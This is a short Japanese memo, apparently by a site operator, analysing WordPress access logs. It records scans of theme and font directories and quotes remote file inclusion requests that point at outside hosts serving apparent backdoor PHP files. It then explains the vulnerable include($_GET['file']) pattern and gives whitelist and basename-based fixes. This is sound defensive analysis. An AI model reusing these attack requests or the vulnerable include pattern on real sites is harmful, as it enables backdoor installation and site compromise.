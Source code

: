 ### ■wp初期テーマから脆弱性をスキャンしている。
```
/wp-content/themes/twentytwentytwo/index.php HTTP/1.1" 301 268 "-" "-"
wp-content/themes/twentytwentytwo/index.php HTTP/1.1" 301 272 "-" "-"
wp-content/themes/twentytwentytwo/index.php HTTP/1.1" 404 2814 "-" "-"
```

<br>

### ■fontファルダから配置ミスを装ったindex.php仕込んであるかスキャンしている。
```
/wp-includes/fonts/index.php HTTP/1.1" 301 252 "-" "-"
wp-includes/fonts/index.php HTTP/1.1" 301 256 "-" "-"
wp-includes/fonts/index.php HTTP/1.1" 404 2814 "-" "-"
```

<br>

### ■コードの脆弱性を狙った攻撃
```
 48.210.47.150 - - [25/Jul/2025:08:49:34 +0900] "GET /autoload_classmap.phphttps://ranchimprovements.com/byp.php HTTP/1.1" 301 0 "-" "-"
 48.210.47.150 - - [25/Jul/2025:08:49:34 +0900] "GET /autoload_classmap.phphttps:/ranchimprovements.com/byp.php HTTP/1.1" 404 34487 "-" "-"
 48.210.47.150 - - [25/Jul/2025:08:49:41 +0900] "GET /wp-content/upgrade/index.phphttps://avocadorentals.com/wp-includes/style-engine/about.php HTTP/1.1" 301 0 "-" "-"
 48.210.47.150 - - [25/Jul/2025:08:49:41 +0900] "GET /wp-content/upgrade/index.phphttps:/avocadorentals.com/wp-includes/style-engine/about.php HTTP/1.1" 404 34487 "-" "-"
 ```

file内の
include($_GET['file']);
を使ってバックドアファイルをインストールさせようとしている。

include($_GET['file']);
はこのまま使うのは危険。以下のようにして使うこと
ホワイトリスト方式
```
$allowed = ['header.php', 'footer.php'];

$file = $_GET['file'];

if (in_array($file, $allowed)) {

    include($file);

} else {

    echo "アクセス拒否";

}
```

拡張方式
```
$file = basename($_GET['file']); // ディレクトリトラバーサル防止

if (preg_match('/\.php$/', $file)) {

    include("templates/" . $file);

}
```
